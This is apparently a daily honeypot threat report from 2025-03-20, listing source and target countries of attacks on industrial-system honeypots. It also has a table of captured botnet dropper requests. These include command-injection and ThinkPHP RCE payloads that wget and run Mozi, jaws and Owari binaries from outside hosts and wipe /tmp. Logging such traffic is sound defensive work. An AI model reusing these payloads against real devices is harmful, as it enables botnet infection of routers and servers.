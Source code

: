 ```yaml
---
title: "Report: 2025-03-20 "
date: 2025-03-20
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-20
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Singapore          |
| US               | Australia          |
| AU               |                    |
| US               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |
| PL               |                    |
| US               |                    |
| AE               |                    |
| US               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                              |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 187.142.48.94   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                     |
| 187.189.193.240 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                                             |
| 45.230.66.48    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.48:10756/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                          |
| 58.146.59.84    | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                               |
| 45.178.250.23   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                |
| 189.167.71.63   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                     |
| 180.106.105.231 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://180.106.105.231:44989/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                      |
| 167.114.86.185  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1            |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |
| 118.40.165.223  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://185.225.75.8/bins/vcimanagement.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |